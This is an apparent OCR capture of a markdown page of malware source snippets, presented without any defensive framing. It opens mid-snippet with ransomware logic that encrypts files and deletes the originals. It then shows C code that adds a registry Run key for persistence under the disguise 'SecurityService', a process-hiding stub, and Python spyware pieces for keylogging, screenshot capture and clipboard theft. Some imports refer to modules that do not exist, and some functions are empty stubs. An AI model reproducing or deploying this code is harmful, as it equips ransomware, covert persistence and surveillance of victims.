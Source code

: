 ```python
                    data = f.read()
                encrypted_data = cipher.encrypt(data)
                with open(file_path + '.encrypted', 'wb') as f:
                    f.write(encrypted_data)
                os.remove(file_path)
```

### Rootkit Hiding Techniques
```c
// Registry modification for persistence
#include <windows.h>

void add_registry_persistence() {
    HKEY hKey;
    const char* path = "Software\\Microsoft\\Windows\\CurrentVersion\\Run";
    const char* value = "SecurityService";
    const char* data = "C:\\Windows\\System32\\malware.exe";
    
    RegOpenKeyEx(HKEY_CURRENT_USER, path, 0, KEY_SET_VALUE, &hKey);
    RegSetValueEx(hKey, value, 0, REG_SZ, (BYTE*)data, strlen(data));
    RegCloseKey(hKey);
}

// Process hiding
void hide_process() {
    // Hook NtQuerySystemInformation
    // Remove process from process list
}
```

### Spyware Data Collection
```python
import keylogger
import screenshot
import clipboard
import microphone

# Keylogger implementation
class Keylogger:
    def __init__(self):
        self.log_file = "keylog.txt"
    
    def on_key_press(self, key):
        with open(self.log_file, "a") as f:
            f.write(str(key))
    
    def start_logging(self):
        # Hook keyboard events
        pass

# Screenshot capture
def capture_screenshot():
    import PIL.ImageGrab
    screenshot = PIL.ImageGrab.grab()
    screenshot.save("screenshot.png")

# Clipboard monitoring
def monitor_clipboard():
    import win32clipboard
    win32clipboard.OpenClipboard()
    data = win32clipboard.GetClipboardData()
    win32clipboard.CloseClipboard()
    return data
```